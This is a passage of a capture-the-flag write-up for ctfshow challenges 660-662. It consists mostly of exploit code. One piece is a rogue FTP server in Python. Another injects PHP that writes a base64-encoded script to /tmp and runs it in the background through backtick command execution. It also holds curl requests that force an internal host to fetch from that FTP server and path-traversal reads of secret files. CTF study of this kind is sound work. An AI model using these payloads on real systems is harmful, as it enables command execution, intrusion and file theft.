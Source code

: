 ```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 21))
s.listen(1)
print('listening 0.0.0.0 21\n')
conn, addr = s.accept()
conn.send(b'220 a\n')
conn.send(b'230 a\n')
conn.send(b'200 a\n')
conn.send(b'200 a\n')
conn.send(b'200\n')
conn.send(b'200 a\n')
conn.send(b'200\n')
conn.send(b'200 a\n')
conn.close()
```

```
a=file_put_contents('/tmp/1.py',base64_decode("aW1wb3J0IHNvY2tldApzID0gc29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCwgc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmJpbmQoKCcwLjAuMC4wJywgMjEpKQpzLmxpc3RlbigxKQpwcmludCgnbGlzdGVuaW5nIDAuMC4wLjAgMjFcbicpCmNvbm4sIGFkZHIgPSBzLmFjY2VwdCgpCmNvbm4uc2VuZChiJzIyMCBhXG4nKQpjb25uLnNlbmQoYicyMzAgYVxuJykKY29ubi5zZW5kKGInMjAwIGFcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLnNlbmQoYicyMDBcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLnNlbmQoYicyMDBcbicpCmNvbm4uc2VuZChiJzIwMCBhXG4nKQpjb25uLmNsb3NlKCk="));

a=echo `nohup python3 /tmp/1.py > /tmp/error.log 2>&1 &`;

a=echo `curl --cookie "PHPSESSID=mueen4l5rs14qndtndjb31ddh4;" "http://172.2.39.5/index.php?action=main&m=testFile&f=ftp://172.2.39.4/aa"`;
```

![image-20220330141500247](https://img-blog.csdnimg.cn/img_convert/412458de09f850d4ecd585b1da6e842b.png)

ctfshow{98555a97cb23e7413d261142e65a674f}

# 661

```
a=echo `curl http://172.2.39.5/public../home/flag/secret.txt`;
//flag_661=ctfshow{d41c308e12fdecf7782eeb7c20f45352}
```

# 662

```
a=echo `curl http://172.2.39.5/public../home/www-data/creater.sh`;
//creater.sh
file=`echo $RANDOM|md5sum|cut -c 1-3`.html
echo 'flag_663=ctfshow{xxxx}' > /var/www/html/$file
```
